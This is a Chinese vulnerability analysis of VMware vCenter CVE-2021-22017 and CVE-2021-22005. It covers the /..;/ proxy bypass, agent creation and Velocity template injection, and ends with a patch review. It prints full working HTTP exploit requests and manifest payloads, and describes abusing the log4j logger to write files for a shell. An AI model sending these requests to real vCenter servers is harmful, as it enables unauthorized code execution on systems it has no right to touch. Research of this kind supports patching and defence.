


CVE-2021-22017+22005模板注入分析

- - -

Author: lz520520@深蓝攻防实验室

# CVE-2021-22017+22005模板注入分析

之前分析了22005，在ceip开启情况下通过log4j写文件的利用，其实除了该漏洞点，22005还有一个collect接口的利用，通过Velocity模板注入来执行代码，但该接口可能无法访问，所以需要结合22017的rhttpproxy 绕过漏洞。  
这个低版本没有 vCenter Appliance 6.7d (6.7.0.14000)  
可以更新到vCenter Appliance 6.7 Update 3k (6.7.0.45100)

## 漏洞分析

com.vmware.ph.phservice.cloud.dataapp.server.DataAppAgentController

### collect接口请求格式

对比补丁发现发现`/analytics/ph/api/dataapp/agent?action=collect`接口被删除了，所以该接口很可能就是漏洞点，进一步跟进分析。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122405-8aa696c0-491c-1.png)

这个接口有些老版本是可以直接访问的，但2021年的版本做了控制，导致不是所有版本都能访问。  
所以需要绕过访问，在这次更新的补丁里有一个rhttpproxy绕过，通过/..;/可绕过，如下URL

```plain
/analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122405-8b082944-491c-1.png)  
17958471以上接口访问有问题，其他待测试。  
根据接口参数要求，必须的参数是`_c`、`_i`、头部字段`X-Deployment-Secret`、以及body，body使用@RequestBody注解就表示是一个json数据，也就是`Content-Type: application/json`  
这里body参数collectRequestSpecJson会通过DataAppAgentRequestDeserializer.deserializeCollectRequestSpec方法进行反序列化转换成CollectRequestSpec对象，里面调用jackson做的反序列化。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122406-8b74b88e-491c-1.png)  
看下这个json数据需要哪几个参数，如下所示，有三个参数，格式可得

```plain
{"manifestContent": "a1", "contextData": "a2", "objectId": "a3"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122407-8bcb5888-491c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122407-8c322ed2-491c-1.png)  
构造数据包发送测试

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB  HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: test
Content-Length: 64
{"manifestContent": "a1", "contextData": "a2", "objectId": "a3"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122408-8c7d9eda-491c-1.png)  
测试返回404以及错误信息，报错信息就是这部分抛出，调试下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122408-8cdd8782-491c-1.png)  
测试发现getAgent报错，agentId是通过四个参数生成，这四个参数相同才是同一个agentId。

```plain
collectorId, collectorInstanceId, deploymentSecret, pluginType
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122409-8d584d5a-491c-1.png)  
观察this.\_dataAppAgentService实际是DefaultDataAppAgentManager，在这个类看到除了getAgent，还有createAgent，这里先不细究agent创建和获取的过程，但目前看起来，要调用getAgent，需要先createAgent存储一个agent。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122410-8dbf8060-491c-1.png)

### agent创建和获取逻辑

emmm，回头看不细究不行了，getAgent要不报错，需要以下两处都不为null

```plain
this._agentRepository.get
this.getActiveAgent
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122411-8e1a1aca-491c-1.png)  
首先

```plain
this._agentRepository.get
```

如下会读取一个文件，如果存在就返回。  
/etc/vmware-analytics/agents/vSphere.vapi.6\_7.properties  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122411-8ea96950-491c-1.png)  
文件名通过getFileName方法生成，通过collectorId和pluginType组成，后缀是固定为.properties，那么可想而知createAgent里肯定有一个创建文件的地方。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122412-8ef52e76-491c-1.png)  
先看看createAgent，使用同样的this.\_agentRepository.get获取，文件名有就抛出异常，如果没获取到就add添加  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122412-8f3c1390-491c-1.png)  
那么添加其实就是一样的格式去创建这个文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122413-8f8e1668-491c-1.png)  
文件内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122413-8fbbfccc-491c-1.png)  
回过头再看看this.getActiveAgent，是通过agentId的equals方法来判断  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122414-8fe8a0a6-491c-1.png)  
和之前判断是一样的，需要四个参数相等才一样。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122414-90217cf0-491c-1.png)  
整理下agentId对象获取的逻辑

1.  判断配置文件是否存在`/etc/vmware-analytics/agents/[agentId.getCollectorId() + pluginType + ".properties"]`
2.  存在后判断List \_activeAgents 里是否有agentId，根据他的四个属性相同判断

所以在测试时，如果要根据新的agentId来测试，那么createAgent时，CollectorId或pluginType要不同，否则无法创建一个新的agentId，如果这两个参数不变，仅修改其他两个参数，是创建不成功的，就会导致获取失败。

### createAgent请求格式

那么就找下是否有调用createAgent的位置，如下，然后构造一个请求包，这个接口和上面不同之处没有action参数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122415-9087bd4e-491c-1.png)  
大概格式是，body部分是createSpecJson，会反序列化成DataAppAgentCreateSpec对象，该对象也是createAgent的一个参数。

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Content-Type: application/json
X-Deployment-Secret: test
Content-Length: 250
{}
```

这个对象里是有如下属性，emmm，但需不需要这些参数，还是提交一个空的json就行，还不知道，先传入测试。

```plain
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122415-90e857c6-491c-1.png)  
最终请求包

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```

通过修改X-Plugin-Type即可创建新的agentId  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122416-913bce38-491c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122416-918628fc-491c-1.png)  
创建后就可正常获取了，继续跟进。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122417-91f91f7e-491c-1.png)

### velocity执行流程

createAgent后，再调用collect接口解析manifest，如下是一个manifestContent测试内容，mappingCode内容对应的Velocity模板，所以最终是一个Velocity模板注入。

```plain
<manifest recommendedPageSize="500">
   <request>
      <query name="vir:VCenter">
         <constraint>
            <targetType>ServiceInstance</targetType>
         </constraint>
         <propertySpec>
            <propertyNames>content.about.instanceUuid</propertyNames>
            <propertyNames>content.about.osType</propertyNames>
            <propertyNames>content.about.build</propertyNames>
            <propertyNames>content.about.version</propertyNames>
         </propertySpec>
      </query>
   </request>
   <cdfMapping>
      <indepedentResultsMapping>
         <resultSetMappings>
            <entry>
               <key>vir:VCenter</key>
               <value>
                  <value xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="resultSetMapping">
                     <resourceItemToJsonLdMapping>
                        <forType>ServiceInstance</forType>
                     <mappingCode><![CDATA[

                        #set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##
                        #set($objectId = "vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid")##
                        #set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
                        $obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
                        $obj.addProperty("BUILD", $content-about-build)##
                        $obj.addProperty("VERSION", $content-about-version)##]]>
                     </mappingCode>
                     </resourceItemToJsonLdMapping>
                  </value>
               </value>
            </entry>
         </resultSetMappings>
      </indepedentResultsMapping>
   </cdfMapping>
   <requestSchedules>
      <schedule interval="1h">
         <queries>
            <query>vir:VCenter</query>
         </queries>
      </schedule>
   </requestSchedules>
</manifest>
```

com.vmware.ph.phservice.collector.internal.cdf.mapping.ResourceItemToJsonLdMapping#map  
跟中到如下位置，解析manifest获取mappingCode，调用VelocityHelper.executeVelocityExpression执行velocity表达式  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122418-92a27d26-491c-1.png)  
堆栈太长，完整的如下

```plain
executeVelocityExpression:184, VelocityHelper (com.vmware.ph.phservice.collector.internal.cdf.mapping.velocity)
map:92, ResourceItemToJsonLdMapping (com.vmware.ph.phservice.collector.internal.cdf.mapping)
map:30, ResourceItemToJsonLdMapping (com.vmware.ph.phservice.collector.internal.cdf.mapping)
map:24, SafeMappingWrapper (com.vmware.ph.phservice.collector.internal.cdf.mapping)
applyItemMappings:85, ResultSetToCdfPayloadMapping (com.vmware.ph.phservice.collector.internal.cdf.mapping)
map:62, ResultSetToCdfPayloadMapping (com.vmware.ph.phservice.collector.internal.cdf.mapping)
map:26, ResultSetToCdfPayloadMapping (com.vmware.ph.phservice.collector.internal.cdf.mapping)
map:36, IndependentResultsMapping (com.vmware.ph.phservice.collector.internal.cdf.mapping)
map:17, IndependentResultsMapping (com.vmware.ph.phservice.collector.internal.cdf.mapping)
map:109, QueryServiceCdfCollector$NamedQueryResultSetToCollectedPayloadMapping (com.vmware.ph.phservice.collector.internal.cdf)
map:87, QueryServiceCdfCollector$NamedQueryResultSetToCollectedPayloadMapping (com.vmware.ph.phservice.collector.internal.cdf)
apply:124, QueryServiceCollector$ResultIteratorFactory$2 (com.vmware.ph.phservice.collector.internal.data)
apply:121, QueryServiceCollector$ResultIteratorFactory$2 (com.vmware.ph.phservice.collector.internal.data)
transform:799, Iterators$8 (com.google.common.collect)
next:48, TransformedIterator (com.google.common.collect)
next:48, TransformedIterator (com.google.common.collect)
next:558, Iterators$5 (com.google.common.collect)
next:558, Iterators$5 (com.google.common.collect)
processStructuredDataCollectors:261, UsageDataCollector (com.vmware.ph.phservice.collector.internal.core)
collectAndUpload:172, UsageDataCollector (com.vmware.ph.phservice.collector.internal.core)
collect:127, UsageDataCollector (com.vmware.ph.phservice.collector.internal.core)
collectAndSend:160, SpecsCollector (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
collect:91, SpecsCollector (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
collect:40, ConnectionClosingCollectorWrapper (com.vmware.ph.phservice.collector.internal.core)
collect:337, DefaultCollectorDataAppAgent (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
collect:55, BaseCollectorDataAppAgentWrapper (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
access$201:22, PermitControlledCollectorDataAppAgentWrapper (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
call:89, PermitControlledCollectorDataAppAgentWrapper$3 (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
call:87, PermitControlledCollectorDataAppAgentWrapper$3 (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
executeWithPermit:112, PermitControlledCollectorDataAppAgentWrapper (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
collect:86, PermitControlledCollectorDataAppAgentWrapper (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
collect:55, BaseCollectorDataAppAgentWrapper (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
collect:55, BaseCollectorDataAppAgentWrapper (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
collect:55, BaseCollectorDataAppAgentWrapper (com.vmware.ph.phservice.cloud.dataapp.internal.collector)
call:213, DataAppAgentController$3 (com.vmware.ph.phservice.cloud.dataapp.server)
call:204, DataAppAgentController$3 (com.vmware.ph.phservice.cloud.dataapp.server)
run:332, WebAsyncManager$5 (org.springframework.web.context.request.async)
call:511, Executors$RunnableAdapter (java.util.concurrent)
run:266, FutureTask (java.util.concurrent)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:748, Thread (java.lang)
```

新的 Velocity 版本有一些黑名单来阻止对“java.lang.Class”类方法的调用,就看上下文是否有一些变量存在操作空间。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122419-932aef08-491c-1.png)

### velocity poc分析

所以看是否可以通过velocity执行命令或上传文件

```plain
#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##
#set($objectId = "vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid")##
#set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
$obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
$obj.addProperty("BUILD", $content-about-build)##
$obj.addProperty("VERSION", $content-about-version)##
```

上面是公开的poc,只会回显一些系统属性，`$LOCAL-resourceItem`、`$content-about-build`、`$content-about-version`都是context里已有的变量。  
这里通过调试获取context里的属性做测试，测试代码如下

```plain
Field contextF = Class.forName("org.apache.velocity.VelocityContext").getDeclaredField("context");
contextF.setAccessible(true);
HashMap m = (HashMap) contextF.get(this.velocityInvocationContext.velocityContext);
NamedPropertiesResourceItem namedPropertiesResourceItem = (NamedPropertiesResourceItem) m.get("LOCAL-resourceItem");
namedPropertiesResourceItem.getResourceItem().getKey();
```

$LOCAL-resourceItem.resourceItem.getKey()，这里使用了两种方式获取对象属性，getKey()就是对象自带的方法，而如果是resourceItem，就会自动调用getResourceItem()来获取属性，毕竟`_resourceItem`是私有属性，没法直接获取。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122420-9388376c-491c-1.png)  
从第二行的`$modelKey.value:$modelKey.serverGuid`也能看出  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122420-93d6e02e-491c-1.png)  
所以改成这样也是可以执行的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122421-94377a7e-491c-1.png)  
或  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122421-94971de4-491c-1.png)  
$LOCAL-cdf20Result变量可获取VelocityJsonLd，该类最终会转换成返回的json数据。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122422-94fac722-491c-1.png)

```plain
VelocityHelper.executeVelocityExpression("#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##\n" +
                "#set($objectId = \"vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid\")##\n" +
                "#set($obj = $LOCAL-cdf20Result.newObject(\"vim.ServiceInstance\", $objectId))##\n" +
                "$obj.addProperty(\"OSTYPE\", \"VMware can't steal this PoC\")##\n" +
                "$obj.addProperty(\"BUILD\", $content-about-build)##\n" +
                "$obj.addProperty(\"VERSION\", $content-about-version)##", this.velocityInvocationContext.velocityEngine, this.velocityInvocationContext.velocityContext, logTag);
this.velocityInvocationContext.velocityJsonLd.object;
```

转换成json返回  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122423-955c9006-491c-1.png)

### velocity GLOBAL-logger利用构造

既然已经清楚了poc是怎么构造的，那么如何getshell，自然是从context里已有的变量里下手，其中注意到有个`GLOBAL-logger`,是log4j的实例，之前分析的漏洞点就是通过log4j写文件的。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122423-95c198c0-491c-1.png)  
我们调试下看看效果，先尝试获取该变量。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122424-96173c6c-491c-1.png)  
log4j的配置文件路径/etc/vmware-analytics/log4j.properties，log4j日志路径在配置文件里写死了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122424-96624e5a-491c-1.png)  
然后查一下log4j运行时怎么修改日志路径。  
[https://www.cnblogs.com/xiaohu-v587/p/8463814.html](https://xz.aliyun.com/t/_www.cnblogs.com_xiaohu-v587_p_8463814)  
当然这个代码是log4j里的，和common-logging包里的还有些差别，但问题不大，可参考这个编写velocity代码。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122425-96868e28-491c-1.png)  
成功写入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122425-969b8206-491c-1.png)  
另外简单看了上下文其他几个变量，也没有利用点，如果有大佬发现可一起讨论。

## 漏洞验证

返回201，createAgent接口存在，并且创建agent成功，每次请求需要修改X-Plugin-Type

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

返回200，collectAgent接口存在，每次请求需要修改X-Plugin-Type

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

## 漏洞利用

createAgent  
每次请求修改X-Plugin-Type

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122425-96d98aba-491c-1.png)  
collectAgent  
获取信息

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2065
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: BafwKlMbWp
Accept-Encoding: gzip, deflate
Connection: close
{"manifestContent": "<manifest recommendedPageSize=\"500\">\n   <request>\n      <query name=\"vir:VCenter\">\n         <constraint>\n            <targetType>ServiceInstance</targetType>\n         </constraint>\n         <propertySpec>\n            <propertyNames>content.about.instanceUuid</propertyNames>\n            <propertyNames>content.about.osType</propertyNames>\n            <propertyNames>content.about.build</propertyNames>\n            <propertyNames>content.about.version</propertyNames>\n         </propertySpec>\n      </query>\n   </request>\n   <cdfMapping>\n      <indepedentResultsMapping>\n         <resultSetMappings>\n            <entry>\n               <key>vir:VCenter</key>\n               <value>\n                  <value xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xsi:type=\"resultSetMapping\">\n                     <resourceItemToJsonLdMapping>\n                        <forType>ServiceInstance</forType>\n                     <mappingCode><![CDATA[\n                        #set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())\n                        #set($objectId = \"vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid\")\n                        #set($obj = $LOCAL-cdf20Result.newObject(\"vim.ServiceInstance\", $objectId))\n                        $obj.addProperty(\"MSG\", \"exist\")\n                        $obj.addProperty(\"OSTYPE\", $content-about-osType)\n                        $obj.addProperty(\"BUILD\", $content-about-build)\n                        $obj.addProperty(\"VERSION\", $content-about-version)]]>\n                     </mappingCode>\n                     </resourceItemToJsonLdMapping>\n                  </value>\n               </value>\n            </entry>\n         </resultSetMappings>\n      </indepedentResultsMapping>\n   </cdfMapping>\n   <requestSchedules>\n      <schedule interval=\"1h\">\n         <queries>\n            <query>vir:VCenter</query>\n         </queries>\n      </schedule>\n   </requestSchedules>\n</manifest>", "contextData": "a2", "objectId": "a3"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122426-9728781e-491c-1.png)  
最后编写利用，效果如下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122426-977f2204-491c-1.png)

## 补丁分析

DataAppAgentController的每个方法里其实都会调用DataAppAgentId，之前的补丁分析这个类有做一个id过滤，而这里其实没做其他改动，只是多一个IncorrectFormat异常捕捉。所以之前的DataAppAgentId补丁和processTelemetry是没有关系的。  
而存在漏洞的collect接口被直接删除掉了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20221011122427-97f1fd42-491c-1.png)
